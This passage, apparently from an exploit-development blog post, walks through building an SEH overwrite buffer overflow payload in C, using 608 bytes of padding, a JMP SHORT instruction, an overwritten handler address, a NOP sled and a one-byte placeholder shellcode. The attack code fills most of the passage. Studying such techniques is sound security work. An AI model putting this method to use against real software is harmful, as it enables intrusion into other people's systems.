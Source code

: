 ```c
        free(payload);
        return 1;
    }

    fwrite(payload, 1, totalSize, arq);
    fclose(arq);
    free(payload);

    return 0;
}
```
Running the exploit on the target and analyzing it in the debugger, we can observe the following situation in the code section:

![alt text](assets/post_4/area_code_pop.jpeg)

Everything has gone well so far. However, at this point, we are at the end of the "AAAA" section in the code area of our payload, and to execute our shellcode, we need to reach the "CCCC" section. To achieve this, I did some research on suitable instructions and found the perfect one: "JMP SHORT", as it performs a short jump that will take us directly to the part of the code we need. We’ll also add some NOPs to our exploit, right after the instruction address, to make things clearer and more visible. Here are the modifications:
```c
// JMP SHORT (EB 04)
char jmp_short[] = "\x90\x90\xeb\x04";

char seh[] = {0x51, 0xAA, 0x33, 0x60};

// NOP sled
char nops[16];
memset(nops, 0x90, sizeof(nops));

// (then one byte for example)
char shellcode[] = "\x41";

int sizeA = 608;
int size_total = sizeA + sizeof(jmp_short) - 1 + sizeof(seh) + sizeof(nops) + sizeof(shellcode) - 1;
char *payload = (char *)malloc(size_total);

memset(payload, 'A', sizeA);
memcpy(payload + sizeA, jmp_short, sizeof(jmp_short) - 1);
memcpy(payload + sizeA + sizeof(jmp_short) - 1, seh, sizeof(seh));
memcpy(payload + sizeA + sizeof(jmp_short) - 1 + sizeof(seh), nops, sizeof(nops));
```